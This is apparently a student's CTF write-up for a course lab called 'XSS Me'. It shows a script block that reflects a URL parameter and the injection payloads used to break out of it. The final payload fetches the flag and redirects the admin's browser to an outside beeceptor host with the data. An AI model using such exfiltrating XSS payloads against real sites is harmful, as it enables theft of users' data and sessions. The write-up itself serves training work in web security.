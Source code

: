 ```yaml
---
title: Simple Web 0x11(Lab - XSS Me)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Fronted"
---
```


# Simple Web 0x11(Lab - XSS Me)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8800/

## Background
:::spoiler
攻擊者沒有直接攻擊受害者，而是把惡意程式植入到受害者會瀏覽的網頁，當受害者瀏覽該網頁時，就會自動執行惡意程式，並把受害主機的一些資料送回給駭客(這是其中一種受害方式，也可能很直接的被盜取`COOKIE`之類的)
![](https://i.imgur.com/lZ0bj41.png)

![](https://i.imgur.com/grJXpr7.png)

![](https://i.imgur.com/q9fwa6z.png)
:::
## Source code
```javascript!
...
<script>
    const message = {"icon": "error", "titleText": "User not found.", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
    window.onload = function () {
        if (message !== null) Swal.fire(message);
    }
</script>
...
```
## Exploit
1. Check XSS
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "youshallnotpass", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ...
    ```
    ![](https://i.imgur.com/OffMAUF.png)
2. Try to inject script tag
Payload: `http://h4ck3r.quest:8800/?type=error&message=%3C/script%3E%3Cscript%3Ealert(123)%3C/script%3E//`
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "</script><script>alert(123)</script>//", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ```
    ![](https://i.imgur.com/1cZJvIv.png)
* Hint
If you login as guest(password = guest), then you can get the response
![](https://i.imgur.com/s2R75Xf.png)

3. Fetch flag and send to [beeceptor](https://beeceptor.com/)
Payload: 
    ```!
    http://h4ck3r.quest:8800/?message=%3C/script%3E%3Cscript%3Efetch(`/getflag\).then(r=%3Er.text()).then(flag=%3Elocation.href=`https://sbk6401.free.beeceptor.com/?f=${flag}`)%3C/script%3E//
    ```

4. Report to admin. Then you got flag!!!
